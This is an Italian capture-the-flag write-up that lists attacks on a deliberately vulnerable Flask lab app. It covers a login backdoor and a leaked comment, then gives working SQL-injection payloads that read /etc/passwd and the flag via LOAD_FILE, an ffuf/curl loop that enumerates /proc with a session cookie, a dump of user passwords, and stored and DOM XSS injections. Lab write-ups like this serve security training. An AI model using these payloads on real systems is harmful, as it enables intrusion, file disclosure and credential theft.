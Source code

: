 LISTA DEGLI ATTACCHI POSSIBILI
==============================

## SCHERMATA DI LOGIN
Tra gli attacchi possibili sul modulo di autenticazione troviamo:

- information disclosure
    - `<!-- Mike rimuovi questo commento prima di rilasciare il form -->` / all'interno del codice sorgente della pagina pubblicamente visibile
- dictionary attacks
    - password utilizzata dall'utente legittimo del sistema facilmente individuabile all'interno di un dizionario di password
- authentication bypass
    - `https://0.0.0.0:5000/login?god` / presenza di una backdoor dimenticata dagli sviluppatori

## BLOG
Tra gli attacchi possibili sul modulo per l'aggiunta di commenti troviamo:

- cross site request forgery (CSRF)
    - il modulo non presenta un token per validare la richiesta
- cross site scripting reflected (XSS)
- cross site scripting stored (XSS)
- sql injection (SQLI)

### SQLi su input toSearch
#### SQLi
##### Stabilizzatore
```sql
\%' or 1=1 -- # => true
\%' or 1=2 -- # => false
```

##### Colonne tabella
```sql
\%' or 1=1 order by 1 -- #	=> una colonna di risultato
```

##### Database
```sql
\%' or 1=1 UNION ALL SELECT database() -- # => foo
```

##### Utente
```sql
\%' or 1=1 UNION ALL SELECT user() -- # => guest@localhost
```

##### Lettura file di sistema
```sql
\%' or 1=1 UNION ALL SELECT LOAD_FILE('/etc/passwd') -- #
```

facendo un pò di enumerazione su i processi attivi all'interno del sistema si può arrivare a leggere qualcosa di molto interessante

```sql
\%' or 1=1 UNION ALL SELECT LOAD_FILE('/home/master/flask_buggy_app/flag.txt') -- #
```
il quale ritrova la flag per completare la sfida.

L'utilizzo della funzionalità **LOAD_FILE** è possibile a seguito di una configurazione errata dei privilegi dell'utente _guest_ il quale oltre ad avere tutti i privilegi sul database __foo__ ha anche i privilegi di accesso in lettura ai file sull'intero server.

Oltretutto il flag __secure_file_priv__ è disabilitato sul server, quindi l'utente in questione può leggere tutti i file accessibili sul sistema per i quali ha di accesso in lettura privilegi.

##### Enumerazione processi
```bash
# PID estratti dal server 
for i in $(seq 1 5000); do echo $i >> pid.txt; done && ffuf -c -w pid.txt:FUZZ -H "Cookie: session=eyJhdXRoZW50aWNhdGVkIjp0cnVlfQ.Y7afKw.sP3DmDbDZ3gmXu0FfNI9vRDdFs4" -u "http://172.17.255.215:8000/search?toSearch=%5C%25'%20or%201=1%20UNION%20ALL%20SELECT%20LOAD_FILE('/proc/FUZZ/cmdline')%20--%20#" -fw 1

# Estrazione informazioni dai pid ottenuti
while read -r pid; do curl -s --cookie "session=eyJhdXRoZW50aWNhdGVkIjp0cnVlfQ.Y7afKw.sP3DmDbDZ3gmXu0FfNI9vRDdFs4" "http://172.17.255.215:8000/search?toSearch=%5C%25'%20or%201=1%20UNION%20ALL%20SELECT%20LOAD_FILE('/proc/$pid/cmdline')%20--%20#" | jq ".[1]"; echo ; done < pid.lst
```
in questo modo è possibile individuare un pò dei processi attivi sul sistema andando a leggere alcune informazioni molto utili e se si è fortunati si potrebbe riuscire ad individuare il processo su cui è in esecuzione il web server leggendo di fatto le variabili d'ambiente ad esso associate.

##### Colonne tabella utente
```sql
\%' or 1=1 UNION ALL SELECT CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'foo' -- #
```

##### Dati tabella utente
```sql
\%' or 1=1 UNION ALL select CONCAT(username, '/', password) from foo.users -- # => Mike/hannahmontana
```

### XSS DOM
```js
\%' or 1=1 UNION ALL SELECT '<script>console.log("XSS")</script>' from foo.comments -- #
```
#### Bonus - esfiltrazione file di backup
```js
\%' or 1=1 UNION ALL SELECT '<script>document.write("<a href=backup.bak download>{{7*7}}</a>")</script>' from foo.comments -- #
```
funziona solo quando c'è almeno una riga

### XSS Stored
```js
\%' or 1=1; INSERT INTO foo.comments(comment) values('<script>alert("XSS")</script>') -- #
```
